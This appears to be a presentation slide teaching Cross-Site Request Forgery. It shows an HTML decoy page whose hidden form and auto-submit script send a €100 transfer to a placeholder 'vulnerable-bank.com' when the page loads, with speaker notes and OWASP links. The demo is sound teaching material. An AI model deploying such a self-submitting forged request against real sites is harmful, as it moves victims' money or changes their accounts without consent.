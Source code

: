 ```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Cross-Site Request Forgery
---
```

<h1>Cross-Site Request Forgery</h1>

<Transform scale="1">

```html {all|13-17|21|all}
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Mario Rossi's totally legit website</title>
</head>

<body>
  <h1>Welcome to Mario Rossi's totally legit website</h1>
  <p>Lorem Ipsum...</p>

  <form action="https://vulnerable-bank.com/transfer.html" id="send-money-to-mario-rossi" method="POST">
    <input type="hidden" name="to" value="Mario Rossi">
    <input type="hidden" name="iban" value="IT81F0300203280886251833317">
    <input type="hidden" name="amount" value="€100">
  </form>

  <script>
  document.addEventListener('DOMContentLoaded', (event) => {
    document.getElementById('send-money-to-mario-rossi').submit()
  })
  </script>
</body>
</html>
```

</Transform>

<!--
From [Cross-Site Request Forgery is dead!](https://scotthelme.co.uk/csrf-is-dead/):

> The real problem here is not that the decoy website sends the request, but that the victim's browser will send the victim's session cookies with it.
The request will be sent with the full authority the victim currently hold at this time, which means if the victim is logged in to his/her bank, he/she will send 100 EUR to Mario Rossi.

That IBAN number is fake, obviously. It was generated with [this tool](http://randomiban.com/?country=Italy).

Some applications might not be vulnerable to CSRF attacks. For example, see [this discussion in Plotly Dash](https://github.com/plotly/dash/issues/141).

- [Cross Site Request Forgery (OWASP)](https://owasp.org/www-community/attacks/csrf)
- [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
-->
